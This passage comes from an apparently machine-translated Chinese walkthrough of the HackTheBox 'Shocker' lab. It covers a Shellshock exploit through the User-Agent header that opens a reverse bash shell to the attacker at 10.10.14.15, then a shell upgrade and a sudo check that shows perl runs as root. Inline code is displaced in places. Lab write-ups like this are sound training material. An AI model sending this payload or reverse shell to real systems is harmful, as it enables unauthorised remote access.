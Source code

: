 
首先，值得注意的是，从技术上讲，这是在扫描的机器上执行代码。因此，虽然它只是一个，但它仍然是RCE，所以值得知道这一点，并确保你在范围/法律/道德范围内。`echo`

结果是两个字符串的多次打印，表明此处的 ShellShock 在 、 和 中是成功的。`Referer``Cookie``User-Agent`

### 壳

我将在 tcp 443 上启动一个侦听器，然后发送以下内容：`nc`

    User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1
    

Web 请求挂起，我在以下位置得到一个 shell：`nc`

    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.56] 45314
    bash: no job control in this shell
    shelly@Shocker:/usr/lib/cgi-bin$
    

我将用正常的技巧得到一个完整的外壳：

    shelly@Shocker:/usr/lib/cgi-bin$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    shelly@Shocker:/usr/lib/cgi-bin$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@parrot$ stty raw -echo ; fg
    nc -lvnp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
                                                                             
    shelly@Shocker:/usr/lib/cgi-bin$
    

并得到 ：`user.txt`

    shelly@Shocker:/home/shelly$ cat user.txt
    2715b1ad************************
    

## 外壳作为根

### 列举

在上传任何类型的枚举脚本之前，我还手动检查，它在这里得到了回报：`sudo -l`

    shelly@Shocker:/home/shelly$ sudo -l
    Matching Defaults entries for shelly on Shocker:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User shelly may run the following commands on Shocker:
        (root) NOPASSWD: /usr/bin/perl
    

雪莉可以作为根运行。`perl`
